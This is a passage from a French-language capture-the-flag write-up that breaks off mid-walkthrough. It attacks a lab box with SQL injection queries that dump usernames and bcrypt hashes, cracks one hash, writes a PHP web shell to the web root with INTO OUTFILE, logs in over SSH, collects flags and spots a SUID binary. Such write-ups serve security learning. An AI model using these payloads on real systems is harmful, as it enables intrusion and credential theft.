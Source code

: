 ```plain
update orders set cvv=(select group_concat(schema_name) from information_schema.schemata);
select group_concat(table_name) from information_schema.tables where table_schema='orders';
select group_concat(column_name) from information_schema.columns where table_schema='orders' and table_name='users';
select group_concat(concat_ws(0x7c, userName, password)) from users;
```

Ce qui nous donne finalement ce bel output :  

```plain
admin|$2y$12$A4jqwtWB73.TAMIeplx0T.5oG/mnHR1qTDa8cmtTIvW3ZTjdSjdjC,m0n3y6r4bb3r|$2y$12$EX/FDsztTMwftzPRyY8gFuM7ZjAphQRZs88qpZpmboRogOAOYXowC
```

Le hash de l'utilisateur *m0n3y6r4bb3r* finit par tomber à l'aide de JtR (c'est quand même du Blowfish) : *delta1*.  

SQLmap parvient à extraire des infos lui aussi mais via time-based. J'en ait profité pour dumper les privilèges de l'utilisateur courant (via *--privileges*).  

```plain
database management system users privileges:
[*] %orders% [1]:
    privilege: FILE
```

On ne l'aurait pas forcément deviné puisqu'on ne tourne pas avec l'utilisateur *root*.  

Plus qu'à dumper un shell PHP sur le serveur. A la racine web ça fonctionne :  

```plain
select "<?php system($_GET['cmd']); ?>" into outfile '/var/www/html/yolo.php';
```

Ça va mieux
-----------

Sur le système on remarque un utilisateur nommé *moneygrabber* et le mot de passe *delta1* est accepté, il est donc possible de se connecter via SSH :)  

Petite chasse aux flags :  

```bash
[moneygrabber@ppeshop tmp]$ find / -iname "flag*.txt" 2> /dev/null 
/var/www/flag1.txt
/home/moneygrabber/flag2.txt
```

Soit les chaînes respectives*WPamTh2Y9uMdphb6z0cp* et *9N8U10EAVU10cbSZPCRv*.  

*LinPEAS* montre rapidement du doigt un binaire setuid inhabituel ainsi qu'un script qui semble lié :  

```plain
-rwsr-xr-x. 1 root root 17K May  9  2020 /usr/bin/backup (Unknown SUID binary)
/home/moneygrabber/backup.sh
```

Ce script de backup est la propriété de *root* et nous ne pouvons pas le modifier. Voici son contenu :  
